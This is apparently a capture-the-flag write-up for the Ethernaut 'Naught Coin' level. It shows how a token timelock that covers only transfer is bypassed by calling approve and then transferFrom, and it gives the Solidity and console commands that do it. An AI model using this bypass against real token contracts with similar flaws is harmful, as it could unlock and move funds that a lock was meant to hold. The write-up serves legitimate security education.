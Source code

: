 # 15. Naught Coin
<sup>Difficulty 5/10</sup>

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

Things that might help

- The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
- The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase


## Solution

We need to transfer all of our token to another address. To do so, we cannot use `transfer` method as it is override in the contract:

```solidity
function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
  super.transfer(_to, _value);
}

// Prevent the initial owner from transferring tokens until the timelock has passed
modifier lockTokens() {
  if (msg.sender == player) {
    require(now > timeLock);
    _;
  } else {
   _;
  }
} 
```

Nonetheless, `transfer` function is not the only method a user can use to move his token. Another available function to transfer token is `transferFrom`:

```solidity
function transferFrom(
    address from,
    address to,
    uint256 amount
) public virtual override returns (bool) {
    address spender = _msgSender();
    _spendAllowance(from, spender, amount);
    _transfer(from, to, amount);
    return true;
}
```

We create and deploy a contract with Remix IDE:

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Receiver {
    receive() payable external {

    }
}
```

```javascript
const amount = (await contract.balanceOf(player)).toString()
// -> '1000000000000000000000000'
const receiver = '0x4e5Eb57187adE87d1c2A55e62CA27f269379ffC6'  // Remix contract
await contract.approve(player, amount)
await contract.transferFrom(player, receiver, amount)
(await contract.balanceOf(player)).toString()
'0'
```

## OZ Corner

When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that `transfer` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.

